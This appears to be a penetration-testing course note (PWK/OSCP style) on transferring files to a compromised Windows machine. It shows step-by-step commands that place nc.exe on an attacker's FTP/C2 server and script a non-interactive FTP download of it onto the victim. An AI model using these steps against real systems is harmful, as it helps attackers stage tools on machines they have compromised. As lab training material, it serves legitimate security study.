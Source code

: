 ### Apache 2

```bash
sudo systemctl start apache2
```

web root is located /var/www/html/


### Windows-based file transfers:

#### Non-Interactive FTP:  
  
Windows ships w/ a default [FTP](OS%20Commands.md#ftp) client that can be used for file transfers.  
FTP, however, is an interactive program requiring user input.  

 
Ex: Compromised Win victim connecting to FTP server on Attack/ C2 to download needed binary.  
  
	We'll set up FTP server on kali containing **nc** binary that's needed on Windows victim machine.  
  
  
1. Use setup of FTP server for [Non-Interactive Shell demo](PWK--Concepts--Non-Interactive_Shell.html)  
2. Place a copy of nc.exe in the FTP home directory  
```bash
sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/  
sudo systemctl restart pure-ftpd
```

3. On compromised Win machine, craft a _txt_ file w/ list of **ftp** commands needed to download binary  
```bash
echo open <ftp_ip> 21> ftp.txt  
echo USER offsec>> ftp.txt  
echo lab>> ftp.txt  
echo bin >> ftp.txt  
echo quote pasv >> ftp.txt  
echo GET nc.exe >> ftp.txt  
echo bye >> ftp.txt
```
---------***NOTE:** Very important to notice there's no space btw the commands being echoed & the _**>**_ or _**>>**_ for Lines 1-3..  
	- **open**: Initiates FTP connection to the specified IP address  
	- **USER**: Authenticates as _offsec_ w/ password- _lab_  
	- **bin**: Requests a binary file transfer  
	- **quote pasv:** Puts in passive mode - doesn't get stuck at 200 PORT command successful  
	- **GET**: Reqests specific binary  
	- **bye**: Closes the connection.

4. Initiate FTP session using the _ftp.txt_ command list that'll allow for a non-interactive session (**-s**)  
```bash
ftp -v -n -s:ftp.txt
```
:
	- **-v** - Suppress any returned output *NOTE: may cause _Unknown command_ errors w/ **open**. Removing will work.  
	- **-n** - Suppresses automatic login  
	- **-s** - Indicates name of command file  
  